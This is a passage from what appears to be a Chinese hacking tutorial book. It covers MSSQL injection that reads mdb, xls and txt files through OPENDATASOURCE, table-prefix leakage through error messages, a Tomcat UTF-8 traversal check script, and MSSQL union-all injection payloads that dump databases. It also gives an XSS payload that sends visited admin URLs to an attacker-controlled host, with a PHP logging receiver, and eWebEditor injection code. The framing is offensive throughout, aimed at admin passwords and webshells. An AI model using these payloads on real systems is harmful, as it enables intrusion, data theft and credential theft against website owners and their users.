  [ , FIRSTROW = first_row ]
  [ , LASTROW = last_row ]
  [ , MAXERRORS = maximum_errors ]
  [ , ROWS_PER_BATCH = rows_per_batch ]
  [ , ORDER ( { column [ ASC | DESC ] } [ ,...n ] ) ] [ UNIQUE ]
```

### 参数

'provider_name'  
字符串，表示在注册表中指定的 OLE DB 访问接口的友好名称（或 PROGID）。provider_name 没有默认值。

'datasource'  
对应于特定 OLE DB 数据源的字符串常量。datasource 是要传递给访问接口的 IDBProperties 接口的 DBPROP_INIT_DATASOURCE 属性，该属性用于初始化访问接口。通常此字符串包含数据库文件的名称、数据库服务器的名称，或者访问接口能理解的用于定位数据库的名称。

'user_id'  
字符串常量，它是传递给指定 OLE DB 访问接口的用户名。user_id 为连接指定安全上下文，并作为 DBPROP_AUTH_USERID 属性传入以初始化访问接口。user_id 不能是 Microsoft Windows 登录名。

'password'  
字符串常量，它是传递给 OLE DB 访问接口的用户密码。在初始化访问接口时，password 作为 DBPROP_AUTH_PASSWORD 属性传入。password 不能是 Microsoft Windows 密码。

'provider_string'  
访问接口特定的连接字符串，作为 DBPROP_INIT_PROVIDERSTRING 属性传入以初始化 OLE DB 访问接口。通常 provider_string 封装初始化访问接口所需的所有连接信息。有关 SQL Server Native Client OLE DB 访问接口可识别的关键字列表，请参阅初始化和授权属性。

catalog  
指定对象所在的目录或数据库的名称。

schema  
架构的名称或指定对象的对象所有者名称。

object  
对象名，它唯一地标识出将要操作的对象。

'query'  
字符串常量，发送到访问接口并由访问接口执行。SQL Server 的本地实例不处理该查询，但处理由访问接口返回的查询结果（传递查询）。有些访问接口并不通过表名而是通过命令语言提供其表格格式数据，将传递查询用于这些访问接口是非常有用的。只要查询访问接口支持 OLE DB Command 对象及其强制接口，那么在远程服务器上就支持传递查询。有关详细信息，请参阅 SQL Server Native Client（OLE DB）进行参考。

BULK  
使用 OPENROWSET 的 BULK 行集访问接口读取文件中的数据。在 SQL Server 中，OPENROWSET 无需将数据文件中的数据加载到目标表便可读取这些数据，这样便可在单个 SELECT 语句中使用 OPENROWSET。

BULK 选项的参数可对何时开始和结束数据读取、如何处理错误以及如何解释数据提供有效控制。例如，可以指定以类型为 varbinary、varchar 或 nvarchar 的单行单列行集形式读取数据文件。

### 权限

OPENROWSET 权限由传递给 OLE DB 访问接口的用户名权限确定。若要使用 BULK 选项，则需要有 ADMINISTER BULK OPERATIONS 权限。

再看看关于 OPENDATASOURCE 函数的介绍：

语法：

```sql
OPENDATASOURCE ( provider_name, init_string )
```

参数：  
provider_name  
注册为用于访问数据源的 OLE DB 访问接口的 PROGID 的名称。provider_name 的数据类型为 char，无默认值。

init_string  
连接字符串，该字符串将要传递给目标提供程序的 IDataInitialize 接口。提供程序字符串语法是以关键字值对为基础的，这些关键字值对由分号隔开，例如：“keyword1=value; keyword2=value”。

若要了解提供程序上支持的特定关键字值对，请参阅 Microsoft Data Access SDK，该文档定义了基本语法。表 1 列出了 init_string 参数中最常用的关键字：

### 权限

任何用户都可以执行 OPENDATASOURCE，用于连接到远程服务器的权限由连接字符串确定。

| 关键字 | OLE DB 属性 | 有效值和说明 |
|---|---|---|
| 数据源 | DBPROP_INIT_DATASOURCE | 要连接的数据源的名称。不同的提供程序用不同的方法对此进行解释。对于 SQL Server Native Client OLE DB 访问接口，这指示服务器的名称。对于 Jet OLE DB 访问接口来说，这指示 .mdb 文件或 .xls 文件的完整路径。 |
| 位置 | DBPROP_INIT_LOCATION | 要连接的数据库的位置。 |
| 扩展属性 | DBPROP_INIT_PROVIDERSTRING | 提供程序特定的连接字符串。 |
| 连接超时 | DBPROP_INIT_TIMEOUT | 达到该超时值后，连接尝试将失败。 |
| 用户 ID | DBPROP_AUTH_USERID | 用于该连接的用户 ID。 |
| 密码 | DBPROP_AUTH_PASSWORD | 用于该连接的密码。 |
| 目录 | DBPROP_INIT_CATALOG | 连接到数据源时的初始或默认目录名称。 |
| 集成安全性 | DBPROP_AUTH_INTEGRATED | SSPI，指定 Windows 身份验证。 |

为了更好地让大家看到执行过程以便理解，也为了能全面演示更多情况，我们在查询分析器里先作个示范。

首先考虑到我们是在注入点执行命令，所以查询 mdb 中表的结果不可能像查询分析器里那样直接显示出来。我们采用的思路是把 mdb 中要查询的那个表的数据先导入一个 MSSQL 中的表，然后再通过注入工具“暴”这个表的内容，得到 MDB 数据库中相应表的内容。

下面的语句就是把动网数据库中的表导入一个名为 nohack 的表。语句中的 g:\test.mdb 是目标数据库路径，dv_admin 是动网中管理员表的名称。如果是查询其它整站数据库的管理员表，对参数进行相应修改即可。

我们使用语句：“SELECT * INTO nohack FROM OPENDATASOURCE('Microsoft.Jet.OLEDB.4.0','Data Source="g:\test.mdb";User ID=Admin;Password=')...dv_admin”，在查询分析器里执行成功，如图 3。

在数据库中的 nohack 表中，也能看到 mdb 的 dv_admin 表字段，然后用“select * from nohack”语句列出 nohack 表中的数据，如图 4。可以与本机上的 mdb 内容对比一下，是一样的，可以从中得到管理员用户名和密码。

现在我们只要在注入点上执行语句，导入 mdb 数据库中的 dv_admin 表到 nohack 表，再通过工具读出 nohack 表的内容就可以了。

这个方法不光用来导入 mdb 文件，如果发现网站上有 xls 文件，一样可以导入，只需要把导入语句改成如下形式：

```sql
SELECT * INTO nohack
FROM OPENDATASOURCE('Microsoft.Jet.OLEDB.4.0',
'Data Source="c:\test.xls";
User ID=Admin;Password=;Extended
Properties=Excel 5.0')...dv_admin
```

在 MSSQL 注入的条件下，不光能导入 mdb 和 xls 文件，应用最多的是导入 txt 文件，所用语句是：

```sql
SELECT * INTO nohack
FROM OPENDATASOURCE('Microsoft.Jet.OLEDB.4.0',
'Data Source=C:\;Extended
Properties="Text;HDR=NO"')...test#txt
```


执行结果如图 5。请注意，这个语句导入的 TXT 文件是在 c:\test.txt，但是这里“.”这个符号要改成“#”号。在注入点执行这个语句时，还记得一定要把“#”号转译成 ASCII 字符“%23”。


列出 nohack 中的数据看看，txt 里的内容都一字不漏地被导出了，如图 6。大家注意，很多管理员会把一些重要信息记录在 txt 文本中，而我们只要读取到这些文件，就往往成为突破口。掌握了这几种通过注入点读取文件的方法，我们的渗透思路更宽了。

## 十八、利用暴错获得表名前缀

SQL 注入技术已有多种应用方法，MSSQL 中最先想到的利用方法是备份 webshell；如果是 Access 这种功能不是太强大的数据库，只好查询管理员表得到密码后进入后台，再想办法获得 webshell。当然了，在 MSSQL 和 MySQL 中，如果遇到权限很低的情况，一般也会采用读取管理员表的办法，因为像写入 webshell 这种高权限操作是管理员可以通过配置来封堵的。

MSSQL 中“暴”表段、字段内容的方法，也能通过禁止数据库用户建表和屏蔽报错回显的方法来封堵。但是对于数据库中表的读取权限是很难阻止的。试想如果禁止了 Internet 访问用户对表的读取权限，那么管理员登录（管理员从后台登录时也是 Internet 用户）时如何判断是否是管理员呢？这样，对于 SQL 注入对表的查询，这个漏洞是很难封堵的，而且在 Access 数据库、MySQL 数据库和 MSSQL 数据库中广泛存在。对于这个关键漏洞，封堵的思路并不是没有，有一个简单而有效的办法，过一会儿介绍。

首先回顾一下猜解表名注入的过程。需要读取数据库中的表，遇到 Access 和 MSSQL 数据库，语句如下：

```sql
and exists (select * from [admin])
```

这和系统命令或是 MySQL 中联合查询所用的以下句式类似：

```sql
Union 1 2 3 4 5 6 7 from admin
```

前提条件都是要正确地猜出表名，然后才可能通过相关语句猜解字段。遇到 Access 及 MSSQL 数据库时，猜解语句如下：

```sql
and exists (select top 1 [name] from [admin]) 或 and (select top 1 len(username) from Admin)>0
```

整个过程可以看到有一个关键点，就是必须猜对需要查询的表名称（一般都是查询管理员表），然后再猜解其下的字段内容。如果表名没有猜对，那后面对字段内容进行查询也就无法展开了。在有错误返回的情况下，如果找不到该表，在注入时会有如图 1 的提示。


假设你是网站管理员，那么一个简单的防止注入的方法应该在你脑中产生了：只要让黑客猜不到表名，再辅以合理的安全配置，就可以把这个最难从大的方面进行封堵的漏洞给堵住。有时从小处着眼的手法一样能达到效果，这一点无论从攻还是防的角度，都是一个不要抛弃的思路。

最常见的防范方法是在表名前加几个字符，被称为“表名前缀”。例如 admin 表是常见的管理员表，我们在前面加几个字符，变成如 nohack_admin 这样的表名，至少可以保证在短时间内无法被猜出。这样即便网站程序中存在注入漏洞，被利用的可能性也就变小，特别是对于使用 Access 数据库的中小型网站，这一招能起很大作用，因为 Access 数据库的注入点不能像 MSSQL 中那样备份获得 webshell，一般都是猜管理员账号密码进后台后拿 webshell。猜不到管理员表名，就无法得到后面的字段名和字段内容，入侵戛然而止。


这个封堵方法难度不高而且有效，很多整站系统也整合了这一功能，让用户可以自定义表名前缀。例如图 2 的这款系统，就有设置表名前缀的功能。


假如这个表名前缀设置得很另类，自然是无法猜中的，但不代表就绝没有办法。我们可以通过网站程序文件中的代码问题来找到突破口。在某些整站系统中，我们能用暴错的方法使表名前缀被“暴”出来。虽然此方法需要文件中的代码 BUG 才能实现，但也是一个突破的思路。


比如浏览某个网站，经过信息搜集，得知网站所用的整站系统就是上文中所举例的那个能自定义表名前缀的系统，注入点已经有了，但是被改了表名前缀，所以猜不到管理员表。无奈之余四下搜索，看有没有可利用漏洞。当在“http://www.nohack.com/search.php?searchword=1&searchtype=zhaosheng”这个 URL 后面加入一个单引号后，居然出现了如图 3 的提示。

看到没有，出现了“cnm_zhaosheng”的字样！不出意外的话，cnm 就是管理员设的表名前缀。试试到注入点中执行查询表名的命令，看是否存在 cnm_admin 这个管理员表。执行结果如图 4，返回了正常页面，说明此表是存在的。

该网站是 PHP 的，所以查询语句用的是 union 联合查询。返回了正确页面，说明管理员表的确是 cnm 前缀。

得到真实的表名后，接下来的注入方法相信大家都会了，这里就不浪费笔墨了。与之相应的还有修改字段名的方法，也能防止注入，不过一般整站系统中不会设置这么复杂的自定义修改，一个不能被人猜出的表名作为防注入足矣。这种代码中的报错导致表前缀暴露的方法有些侥幸，不过在实际应用中，还是有不少成功机会的。

## 十九、从漏洞发现到利用之旅

现在的黑客技术是一个被 SQL 注入技术统治的时代。虽然这一技术仍然有效，但它绝不是黑客技术的全部，甚至很多时候也不是最有效的攻击手段。它占据统治地位的最大原因是利用门槛和前置知识要求比较低。当一个绝顶高手和一个新手都在使用 SQL 注入技术对网站进行安全检测时，你是很难发现两者之间技术差别的。

本来一项技术连续不断发展是件好事，但是 SQL 注入漏洞的危害在于，已经让很多菜鸟朋友把网络安全技术与注入技术划上了等号。在实践中，当注入行不通的时候，就认为这个网站没有漏洞、无法入侵。这种思想的毒害是十分可怕的。这一章就通过一点与众不同的思路来发掘漏洞。

我们的目标网站采用 JSP 代码编写，如图 1。测试了一些常见漏洞，包括注入等，毫无进展。

这种情况下，笔者把思路放到了寻找其它非常规漏洞上。直觉上感觉这个网站使用 JSP 似乎是大材小用。JSP 一般与 Tomcat 等结合使用，网上资料和实际经验都比较少，相信管理员对此也所知有限。如果没有勤打补丁，或是对自己服务器环境下的安全知识了解不多，很可能留给我们机会。


图 1

其实这完全是由己度人了。以自己对此知之甚少，猜测管理员也对之不太了解，实在是主观。不过这种分析还是有一定道理的，很多管理员和菜鸟朋友们一样，以为只有 ASP、ASPX 能注入，而把网站的安全问题想象成只有注入一种。于是他们在选取整站程序时，经常会“看不上”ASP、ASPX 的代码。

现在我们大体思路定下来了，首先还是进行关键的情报收集吧，尝试获得这个网站使用的整站程序，了解使用的是什么数据库。这些信息的收集手段大家应该都有所了解了，如强制暴错法、无效请求法、不存在文件请求法等等。

当请求一个不存在的文件地址时，比如：“http://www.nohack.com/system/resource/code%20temp.jsp”，网页上返回了一个比较重要的信息，如图 2。


从图中我们得到了该网站使用的服务器系统是“Apache Tomcat”，版本 6.0.14。我们搜索一下该系统相应版本有什么已知漏洞。这里给大家推荐一个中文漏洞检索网站：http://www.sebug.net，如图 3。


只要在搜索框里输入要查找漏洞的系统关键字，就可以搜到是否有公开漏洞。比如这里我输入“Apache Tomcat”，很快就搜到了。


大量关于这个系统的漏洞，如图4。

漏洞虽多，千万不要盲目尝试，注意两点：

- 一是“时效性”，就是很早以前的漏洞就不要尝试了，因为可能已经过时，除非目标站点也是这样的老系统，并且还要注意漏洞是否已经被补过了，总之尽量选择新一些的漏洞。
- 二是“针对性”，你究竟需要对目标采取什么样的行动，是跨站还是拿到 webshell。如果是拿 webshell，一些关于 DDOS、跨站类的漏洞就不用看了。

图5

结合搜索出来的结果，我对其中的“Apache Tomcat UTF-8 目录遍历漏洞”比较感兴趣，点击进去可以看到详细的描述，如图5。

最先要关注的就是该漏洞的影响版本，如果不在影响范围内可以直接关掉找下一个漏洞了。从图5中可以看到，tomcat 6.0.14 正好也在该漏洞的影响范围之内，接下来要看在漏洞描述中给出的具体测试方法和其它详细资料，如图6。

图6

从资料中我们了解了漏洞产生的位置、原理，还得到了一小段测试代码。这里的信息还算是比较全面的，如果没有具体的测试方法，那需要你的功底比较深，这样可以自己根据描述的漏洞出现位置去找出测试和利用方法。如果对编程不太了解，只能进一步求助于 Google，看看有没有更容易使用的方法，比如有些漏洞会有牛人制作好的利用工具。

在 Google 网站以漏洞的关键字“tomcat 目录遍历漏洞”进行搜索，找到了一段测试漏洞的代码，如图7。

```vb
Dim strUrl,strSite
showB()
Set Args = Wscript.Arguments
If Args.Count <> 1 Then
ShowU()
Else
strSite=Args(0)
End If
strUrl="/%%c0%%ae%%c0%%ae/%%c0%%ae%%c0%%ae/%%c0%%ae%%c0%%ae/foo/bar"
Set objXML = CreateObject("Microsoft.XMLHTTP")
objXML.Open "GET",strSite & strUrl, False
objXML.SetRequestHeader "Referer", strSite
objXML.send()
if objXML.status=200 then
wscript.echo("存在漏洞")
end if
Sub showB()
With Wscript
.Echo("+-------------------------------------------+")
.Echo("Exploit Apache Tomcat UTF-8")
.Echo("Code By Safe3")
.Echo("+-------------------------------------------+")
End with
End Sub
Sub showU()
With Wscript
.Echo("+-------------------------------------------+")
.Echo("用法:")
.Echo("cscript "&.ScriptName&" site")
.Echo("例子:")
.Echo("cscript "&.ScriptName&" http://www.example.com >result.txt")
.Echo("+-------------------------------------------+")
.Quit
End with
End Sub
```

得到了代码这一步，就是比较考验基本功的了，很多菜鸟朋友常常觉得找到了漏洞也无法利用，这就是掌握的知识和高手之间存在着差距。比如拿到这段测试代码，首先要知道这是什么样的代码，是脚本的还是需要编译的，这是需要经验和对编程有一定了解才能判断的。这段代码是 vbs 的，因为后面用法中“cscript "&.ScriptName&" site”这一段利用了脚本解释器 cscript。

我们把测试代码保存为 tomcat.vbs，然后执行“cscript tomcat.vbs”，可以看到返回了工具的使用方法，很简单，只需要在 vbs 后面加上要测试的网站地址就行了，如图8。

对目标网站进行测试，输入“cscript tomcat.vbs http://www.nohack.com”，执行后返回的结果如图9。

经过这个代码的测试，说明网站是存在漏洞的，我们可以继续沿着这条思路，查看敏感目录，找出入侵的方法。这就是从其它漏洞进行安全检测的小例子，方法在公开的网站上都能找到，特别是国外的网站，但是能否顺利地利用就完全看个人的知识积累了。

在本例中，只是简单地利用了一个 vbs 代码，并且网站系统中没有 bug。而在其它的很多情况中，漏洞利用程序是需要编译并且网站系统存在 bug，如果对基础知识了解不扎实，不懂编程和 debug，就算找到了利用方法，在手段上你也无法利用。因此真正学好基本功，才是从菜鸟中脱颖而出的唯一途径。

图9

## 二十、MSSQL 下的 union 查询

现在这个年代，提起 SQL 注入，好像是在讲一件十分久远的故事。一些“有经验的黑客”也对此技术表示不屑，更有一些专业的编写脚本的程序员，在探讨脚本安全时信心百倍地说：“SQL 注入是前两年的事，现在新的程序应该没有这个漏洞了。”

我想这些观点似乎都过于前卫了。从时间上说，SQL 注入漏洞已经是一个横行十年的老漏洞了，作为更新速度相当快的网络安全知识来说，一个十年前的技术的确是太过时了。不过话又说回来，能存在如此之久的技术必然是不断演化进步的。

如果对黑客技术关注得比较久的朋友，应该会记得 SQL 注入这些年来不断突破不可能，创造出新的战绩。回顾几年来的技术走势，不是有越来越多的技术纷纷出现，越来越低的权限可以使用 SQL 注入吗？

客观地评价 SQL 注入技术在现在的影响，它终将被淘汰，但现在还没有到被淘汰的地步，因为它还在不断发展深入之中，在即将普及的 SQL2005、Oracle 等中还有很大的发挥余地。

好了，多余的话题不谈了，本书的这一节就介绍一个 MSSQL 注入的发展技术，就是利用 union 方法，对 MSSQL 数据库进行注入。

先介绍一下这种注入技术的特点和优势。一般在 public 权限下，常见的备份 webshell 是不可能了，虽然可以读出表和表中的数据，但是如果屏蔽了回显，就只能用对比正确和错误页面的区别来逐个字符猜解所需要的内容。

在数据量较小的情况下还可行，但在需要的数据非常多时（例如数万条的有价值用户表），逐字猜解信息量太费时了！这种 SQL 注入的最大优势是在几乎绝境权限的情况下进行注入，特点则是能快速地获取数据。

### 重装上阵

联合查询的具体操作其实并不复杂，只要看过《黑客手册》的读者都记得 MySQL 下的 union 查询注入。如果说 MSSQL 下的 union 还是近年才公布的技术，那 union 注入则早就是 MySQL 下的主流手法了。

先简单地回顾一下 MySQL 下的注入方法，对于我们学习 MSSQL 的 union 注入是有帮助的。

在注点上用“And union select 1,2,3,4,5,6”语句猜解出当前表中的字段数目，不断递增后面的数字，当猜出的字段数目正确时，会返回正确页面。这中间有点小技巧，就是对于每一处字段类型的转换，不过这就比较复杂了，以后再讲。

猜对字段数后，用语句“And 1=2 union select 1,2,3,4,5,6”，And 1=2 会使程序中的原语句出错而在页面上显示出各字段对应的位置。

在猜数据前，要先知道自己要得到哪个表的数据库，可以用语句：“And Union select 1,2,3,4,5,6 from admin”，admin 是想要猜解的表名，可以替换，类似 Access 数据库中对表的猜解。

最后选择一处能在页面上看到回显的位置替换为要猜解的字段名，如果猜对字段名，则该字段的值会在页面上被显示出来，使用的语句是“And 1=2 union select 1,2,password,4,5,6 from admin”。password 是要猜解的字段名，位于 3 的位置能在页面上正确显示。

以上就是很简单的 MySQL 注入。学习网络安全知识比较早的读者应该会发现，为什么 MySQL 的 union 注入很早就出现了，而在 MSSQL 中的该种方法利用一直就没有呢？这是因为 MSSQL 下的 union 查询会遇到这样的难点：那就是当前面语句选择的字段有 text、ntext 或者 image 格式的时候，不能用 DISTINCT 方式来选择，而带 union 的语句必然是以 DISTINCT 方式来进行的。这种限制被牛人们研究出了解决方法，就是在 union 后面跟一个 all，即 union all 就搞定了！

下面看一下实际应用。首先如同在 MySQL 中一样，用语句查询当前表有几个字段以便匹配，语句为：

```text
http://www.nohack.com/test.asp?jmdcw=1 union all select null,null,null,null,null,null,null,null,null,null,null--
```

这里用 null 表示为空值，省去了当某个字段的类型被限制时的麻烦。如果猜解的字段数不对，页面返回错误，如图1。

一直修改语句，直到后面的 null 加到 12 个时，页面返回正确，如图2，说明当前表有 12 个字段，语句可以平衡了。

接下来看看哪个字段的位置是能显示内容在页面上的，使用语句：

```sql
and 1=2 union all select null,null,cast(0x6161616161616161616161616161616161616161616161616161616161616161 as varchar(8000)),null,null,null,null,null,null,null,null,null--
```

0x61616161616161616161616161616161616161 是 16 进制转换后的字符“a”，用 cast 函数转换回字符形式。这种写法是为了防止有字段对类型有限制时得不到正确的结果。

把“cast(0x6161616161616161616161616161616161616161616161616161616161616161 as varchar(8000))”替换第一个 null，如果没有页面显示这一长串字符 a，就换到第二个 null 的位置替换，以此类推。我们这里在替换到第三个 null 的位置时，出现了 a 的一长串回显，如图3。

下面开始查询要用的数据，先要得到当前的库名，使用如下语句，结果如图4。

```sql
and 1=2 union all select null, null, cast(db_name() as nvarchar(4000)),null,null,null,null,null,null,null,null,null --
```

从图4的页面中可以看到返回的库名是 menlo。

MSSQL 注入中有一个要点，可以在 master 数据库中查到数据库的名字，这点比起 MySQL 数据库要方便多了。MSSQL 的基础注入知识已经非常普及，这里就不从头介绍了，后面对应的各个语句都是由之演变而来的，这里用的语句是：“select top 1 name from xxxxxxx.dbo.sysobjects where xtype='U'”。

于是我们可以把 union 查询和这个结合起来得到该数据库中的表名，语句为：

```sql
and 1=2 union all select top 1
null,null, cast(cast(name as varchar
(256)) as nvarchar(4000)),null,null,
null,null,null,null,null,null,null from
(select top 1 id,name from (select
top 1 id,name from [menlo]..
[sysobjects] where xtype=char(85) and
status%3E0 order by 1) t order by 1
desc)t--
```

[menlo] 是库名，不断增加“select top 1 id, name from [menlo]..[sysobjects] where xtype=char(85) and status%3E0 order by 1”语句中 top 1 的值，能逐条猜出 menlo 这个库中的表，如图5。

在得到表名后，如果要猜解某个表中的字段，要用下列语句查出表名对应的 ID 号，这个过程看过 MSSQL 基础注入的读者应该不陌生。

```sql
and 1=2 union all select top 1 null,null, cast(cast([id] as nvarchar(20)) as nvarchar(4000)),null,null,null,null,null,null,null,null,null from [menlo]..[sysobjects] where name=0x69006e0066006f005f006f007200640065007200--
```

0x69006e0066006f005f006f007200640065007200 是要查询的表名转换为 16 进制的字符，我们可以用工具来完成，如图6。

语句执行后结果如图7，得到要查询的表名在系统库中对应的 ID。

以这个 ID 号为条件进行查询，可以得到表下各个字段的名字，语句为：

```sql
and 1=2 union all select top 1 null,null, cast(cast(name as varchar(8000)) as nvarchar(4000)),null,null,null,null,null,null,null from (select top 1 colid,name from (select top 3 colid,name from [menlo]..
[syscolumns] where id=137767548 order by 1) t order by 1 desc)t--
```

把“select top 3 colid, name from [menlo]..[syscolumns] where id=137767548 order by 1”中 top 后的数字不断增加，可以逐步得到各个字段名。如图8中的 sum_order 就是一个字段名，id=137767548 就是刚才查询的表的 ID 值。

最后一步是暴出字段的值，使用的语句是：

```sql
and 1=2 union all select top 1 null,null, cast(isnull(cast([date_order] as varchar),char(32)) as nvarchar(4000)),null,null,null,null,null,null,null,null,null from (select top 1 * from (select top 1 * from [menlo]..[info_order] where 1=1 order by 1) t order by 1 desc)t--
```

执行后结果如图9，显示的“12 4 2000 2:39P”就是字段中的值。

把“cast(isnull(cast([date_order] as varchar),char(32))”中的字段名替换为想查询的字段名，就可以得到相应的值。更改“select top 1 * from [menlo]..[info_order]”中的 TOP 号，可以查询到字段中相应行数的值。

MSSQL 的 union 注入语句是比较复杂的，不过也没有太大难度，无非是几个基础的 SQL 语句的拼接，相信有一定基础的读者都能轻松掌握。

## 二十一、利用 XSS 获得管理后台地址

XSS 攻击技术是近年来发展起来的，其实最早的雏形是利用跨站脚本获得 cookie。cookie 欺骗之类的技术，早在十年前就有广泛的资料出现了。不过这种技术一向被人认为是一种“软性”的黑客技术，因为它不能直接获得 webshell，也无法产生“直接”的攻击。菜鸟也觉得不如直接获得 webshell 和利用注入技术暴露一切网站或管理员信息那么“酷”，所以关于跨站技术一开始研究和学习的人就比较少。

到后来利用跨站结合后台的备份数据库功能，形成跨站备份 webshell，算是 XSS 漏洞利用的一个小小里程碑，跨站技术终于和直接获得 webshell 扯上了关系。

随后关于 XSS 利用的观念迎来突破，现在黑客已经进入逐利时代，需要的是“挂流量”“挂肉鸡”，这些目的不一定非要获得 webshell 才能达到。因为 SQL 注入漏洞的后果相当严重，防护手段越来越多，使得利用成本提高，而 XSS 的利用变化更加复杂，使人防不胜防，搜狐、百度等都爆出过比较轰动的 XSS 漏洞。

有了思路上的革新，产生了需求，相应研究出的技术手段越来越多，这就是为什么思想大解放是技术大进步的前提原因。

XSS 发展到今天，不仅可以结合其它漏洞达到进入后台、备份 webshell、挂木马、钓鱼攻击、获取管理员密码等这些传统入侵能达到的目的，更拥有“包治各种疑难杂症的效果”。例如本例中介绍的就是利用 XSS 漏洞得到网站后台的思路。

有了管理员的账号和密码，但是找不到管理后台，是长期以来困扰着 hack 界的一大难题（有点像一些医药广告的开场白）。传统的找管理后台方式都是被动的，比如通过工具猜解一些常用的后台目录名，如图1，或者用 Google 对“管理后台”“登录”“admin”“login”等关键字进行搜索，如图2。

如果这样也找不出后台，也就只能试试社工了。可是管理员把后台目录名设置为类似 dfdsfkjeheripdsf 这样的奇怪字符，几乎是不太可能找到的。以前遇到这种情况基本就只能放弃这个思路了，但在这里给大家介绍一种新的思路：首先用社会工程学诱骗或迫使管理员登录后台，然后利用 JavaScript 得到管理员访问过的目录列。表，再转发到远程服务器上，从中分析出管理目录。

逐步分析一下每一步我们要做的事：

- 第一步，利用社会工程学诱骗或迫使管理员登录后台。这个不难做到，我们可以在目标网站发布一些对目标网站或管理员不利的信息或广告，管理员必然会进后台进行删除。
- 第二步，利用 JavaScript 得到管理员访问过的目录列表。可能很多读者还不知道 JavaScript 还有这个功能，其实它真的是个功能十分强大的语言，好好学习下去，还会有很多新的利用方法被你发现，这就是为什么本书的宗旨是“知识的深度就是你所能利用的技术层次”。

图2

列出本机访问的目录使用以下代码：

```html
</img><script>document.ak.src="http://www.nohack.com/cook.php?"+window.location.href;</script>
```

这段代码的核心是用 `window.location.href` 抓取本地浏览器访问过的链接，然后提交到 `http://www.nohack.com/`（这个是自己的域名地址）上的 `cook.php` 文件。这段代码已经被改造成了可以进行跨站的形式，把这个代码直接提交到有跨站漏洞的地方，如留言提交处，就可以像“发报机”一样把当前浏览者访问过的 URL 截取后发到远程服务器上保存。

- 第三步，把结果转发到远程服务器。这个没什么困难，和以前抓取 cookie 转发到远程服务器是一样的，抓到的数据被提交到远程网站后需要保存，我们要有一个“接收机”在服务器上，和远程抓取 cookie 中用到的那个接收文件类似。

我这里给出一个 PHP 版的，代码如下：

```php
<?
$info = $_SERVER['QUERY_STRING'];
if ($info) {
$fp = fopen("info.txt","a");
fwrite($fp,$info."\n");
fclose($fp);
}
?>
```

这段代码是将接收到的数据存在 `info.txt` 中。使用它我们需要有一个支持 PHP 的空间，或者在自己电脑上建一个支持 PHP 的环境。

准备工作完成后，就可以开始我们的计划了。首先在目标网站的留言处，也就是存在跨站漏洞的地方，把跨站截取目录的代码写进去，装作是在向管理员询问信息。

继续在留言板上发布大量不友好的信息，这里我用刷屏的方式发了整整一个版面的信息，为的是让刺激足够强烈，相信管理员看到这个情况第一反应都是进入后台马上删除这些信息，如图3。

OK，假设事情继续按我们的计划发展，现在管理员在后台删掉了我发布的垃圾信息，那么他的后台地址就已经存在电脑缓存中了，这时只要他不关闭浏览器，那这个地址是完全可以被我的代码抓取的。管理员的工作可不光是删掉垃圾信息这么简单，还需要回答用户的咨询，如图4。

当他点击我之前发布的那个热心咨询的帖子时，那个网站的地址就被截取提交到了远程服务器上。

等过了一段时间后，如果管理员落入了我们的圈套，打开远程网站上的 `info.txt` 文件，就能看到那个让我们猜测不出的管理员后台目录，如图5，目录名 `adminxxoodddiifb` 已经被保存在文件中了。

希望读者们学好 JavaScript，结合 XSS 漏洞可以解决更多的问题。知识结合经验，发展出自己的独创技术并不是高手的专利。

## 二十二、利用 SQL 注入进行数据的外部引用

SQL 注入技术正如本书中所持观点，还在继续发展着，在很多时候会打破常规思维，把不可能变成为可能。比如本节中介绍的，不经过数据库的修改，将外部数据临时“插入”到程序中，使程序不从数据库中识别数据，而被我们构造的数据欺骗。

可能上面的话表述的意思不够清晰，我来详细介绍一下这个过程。假设我们要进入一个网站的后台，有一个可利用的注入点，常规思路是通过注入点得到管理员账号和密码，然后进行破解登录；如果数据库是 MSSQL，可以用 `update` 语句修改密码进行登录。这些方法都是要得到并破解管理员密码，或是修改为已知密码才能登录后台。

从这种途径登录后台理论上是没有问题的，但如果密码无法破解，又无权限 `update` 时，就会遇到困难了。`update` 是需要有权限修改数据库的，这种权限可不是次次都会有的。如果一门心思想如何提升权限、如何找 0day，那就陷入了思维误区。实际上在条件合适的前提下，我们可以不用真正修改数据库，而只要“欺骗”程序以为数据是从数据库中读取出来的就行了。这样一来就绕开了对数据库的修改，那就与限制权限统统无关了。

两种思路的流程如下：

> 攻击者——修改或破解数据库——被程序识别通过——达到登录后台目的  
> 攻击者——欺骗程序读取非数据库数据——被程序识别通过——达到登录后台目的

这是一个避实就虚的优秀思路，下面用 ewebeditor 漏洞为例来谈谈利用注入数据外部引用。读者们看到 ewebeditor 可千万不要以为是介绍那个默认密码登录后台的老漏洞，请继续往下看。

在老版本 ewebeditor 的 `upload.asp` 文件中有一段代码存在注入漏洞，如下：

```vb
Sub InitUpload()
sType = UCase(Trim(Request.QueryString("type")))
sStyleName = Trim(Request.QueryString("style"))
sSql = "select * from ewebeditor_style where s_name='" & sStyleName & "'"
oRs.Open sSql, oConn, 0, 1
If Not oRs.Eof Then
sUploadDir = oRs("S_UploadDir")
sUploadDir = Replace(sUploadDir, "\", "/")
If Right(sUploadDir, 1) <> "/" Then
sUploadDir = sUploadDir & "/"
End If
Select Case sType
Case "FILE"
sAllowExt = oRs("S_FileExt")
nAllowSize = oRs("S_FileSize")
Case "MEDIA"
sAllowExt = oRs("S_MediaExt")
nAllowSize = oRs("S_MediaSize")
Case "FLASH"
sAllowExt = oRs("S_FlashExt")
nAllowSize = oRs("S_FlashSize")
Case Else
sAllowExt = oRs("S_ImageExt")
nAllowSize = oRs("S_ImageSize")
End Select
Else
OutScript("parent.UploadError('无效的样式 ID 号，请通过页面上的链接进行操作！')")
End If
oRs.Close
' 任何情况下都不允许上传 asp 脚本文件
sAllowExt = Replace(UCase(sAllowExt), "ASP", "")
End Sub
```

`sStyleName` 变量是直接从 `style` 中读取的，没有经过任何过滤。如果管理员修改密码为一个很强壮的密码，就算得到密码 hash 也无法破解。不要紧，我们可以利用这一个注入点欺骗源程序，让其接受我们构造的数据，采用的办法是 `union` 查询。

以前学习过 `union` 注入相关常识的朋友应该会记得 `union` 查询的一个特点，就是当前面的一条语句结果为“假”时，会把第二条语句的查询内容引入程序之中。这也就是我们在利用页面返回 SQL 注入语句时采用类似 `and 1=2 union select 1,2,3,4,5,password,7 from admin` 语句的理论基础。

